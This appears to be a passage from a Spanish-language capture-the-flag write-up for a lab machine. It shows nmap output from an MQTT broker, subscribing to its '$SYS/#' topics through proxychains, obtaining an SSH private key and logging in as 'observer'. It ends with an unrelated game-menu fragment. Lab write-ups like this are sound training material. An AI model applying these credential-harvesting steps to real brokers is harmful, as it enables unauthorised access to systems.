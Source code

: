 ```null
|     $SYS/broker/subscriptions/count: 18
|     $SYS/broker/clients/maximum: 10
|     $SYS/broker/load/publish/sent/5min: 8.84
|     $SYS/broker/heap/maximum: 40808
|     $SYS/broker/messages/received: 8448
|     $SYS/broker/load/publish/received/15min: 11.14
|     $SYS/broker/clients/disconnected: 8
|_    $SYS/broker/load/messages/sent/15min: 29.51

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.54 seconds
```

Instalo ```mosquitto``` en mi equipo para poder conectarme

```null
apt install mosquitto mosquitto-clients
```

Em este [artículo](https://stackoverflow.com/questions/42559890/request-all-published-topics) explican como listar los ```topic``` de mosquito

```null
proxychains mosquitto_sub -t '$SYS/#' -h 127.0.0.1 -p 1883
```

Pasado un tiempo, obtengo una ```id_rsa``` que me sirve como identidad para conectarme como ```observer``` por SSH

```null
ssh observer@10.10.10.170 -i id_rsa
The authenticity of host '10.10.10.170 (10.10.10.170)' can't be established.
ED25519 key fingerprint is SHA256:BeSz+hYjER67iFw4Gw3stOGL8HamBdexYNTkP6WvcHE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.170' (ED25519) to the list of known hosts.
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.2.5-050205-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 14 18:23:30 UTC 2023

  System load:  0.0               Processes:             160
  Usage of /:   88.1% of 4.30GB   Users logged in:       0
  Memory usage: 49%               IP address for ens160: 10.10.10.170
  Swap usage:   0%

  => / is using 88.1% of 4.30GB


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

117 packages can be updated.
5 updates are security updates.


Last login: Sun Dec  1 15:33:19 2019 from 172.16.118.129
observer@playertwo:~$ 
```


 [ Game                ]: test
 [ Config Index    ]: test
  [ Game                ]: test
  [ Contrast            ]: 0
  [ Gamma               ]: 0
  [ Resolution X-Axis   ]: 0
  [ Resolution Y-Axis   ]: 0
  [ Controller          ]: 0
 [ Config Index    ]: test